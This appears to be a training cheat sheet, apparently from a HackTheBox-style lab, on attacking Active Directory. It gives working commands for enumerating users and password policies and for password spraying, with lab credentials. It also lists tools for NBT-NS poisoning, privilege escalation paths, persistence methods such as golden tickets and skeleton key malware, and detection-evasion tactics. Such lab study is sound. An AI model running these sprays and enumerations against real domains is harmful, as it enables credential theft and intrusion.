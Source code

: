 # Active Directory Privilege Escalation

## Active Directory Attacks

Active Directory is the primary identity management service in Windows environments. Proper enumeration and understanding of Active Directory components is crucial for finding attack vectors.

### Initial Enumeration

Initial enumeration involves identifying domain controllers, exploring network resources, and discovering basic domain information.

#### Discovering Domain Controllers

* Network scanning for standard DC ports (53, 88, 389, 445)
* DNS queries for SRV records
* LDAP queries

#### Basic Domain Information

* Domain name and NetBIOS name
* Domain functional level
* Trust relationships

### NBT-NS Poisoning

#### NBT-NS Poisoning from Linux

NetBIOS Name Service poisoning involves responding to NetBIOS name resolution requests to capture credentials or redirect users.

Tools:

* Responder
* ntlmrelayx
* Impacket suite

#### NBT-NS Poisoning from Windows

Similar to Linux-based poisoning but using Windows-native tools or specialized utilities:

* Inveigh
* PowerShell scripts for LLMNR/NBT-NS poisoning

### User Enumeration & Password Policies

Understanding user accounts and password policies is critical for planning authentication attacks.

#### Retrieving Password Policies

```bash
# Using CrackMapExec
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol

# Using enum4linux
enum4linux -P 172.16.5.5

# Using LDAP search
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

#### Enumerating Users

```bash
# Using enum4linux
enum4linux -U 172.16.5.5 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

# Using rpcclient
rpcclient -U "" -N 172.16.5.5

# Using CrackMapExec
crackmapexec smb 172.16.5.5 --users

# With valid credentials
crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users

# Using LDAP search
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "

# Using Kerbrute
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

### Password Spraying Attacks

Password spraying involves trying a small set of common passwords against many user accounts to avoid account lockouts.

#### Windows Password Spraying

```bash
# Using CrackMapExec for SMB password spraying
crackmapexec smb 172.16.5.5 -u users.txt -p 'Welcome1' --continue-on-success

# Using Kerbrute for Kerberos password spraying
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 users.txt 'Welcome1'
```

### Post-Compromise Enumeration

After gaining initial access, deeper enumeration helps identify privilege escalation paths.

#### Domain Information

* Group Policy Objects
* Domain trusts
* Sites and services

#### User and Group Details

* Group memberships
* Account privileges
* Service accounts

#### Computer Objects

* Operating systems
* Installed software
* Security configurations

### Active Directory Privilege Escalation

Common privilege escalation paths in Active Directory:

1. Kerberoasting
2. AS-REP Roasting
3. DCSync attacks
4. Abuse of Group Policy
5. ACL/DACL misconfigurations
6. Resource-based constrained delegation

### Persistence Mechanisms

Ways to maintain access in Active Directory environments:

1. Golden/Silver tickets
2. Domain Controller synchronization rights
3. DSRM password modification
4. Skeleton key malware
5. Custom SSP
6. ACL modifications

### Detection Evasion

Techniques to avoid detection during Active Directory attacks:

1. Operational security practices
2. Avoid noisy tools and commands
3. Living off the land techniques
4. Limiting lateral movement
5. Alternative authentication methods
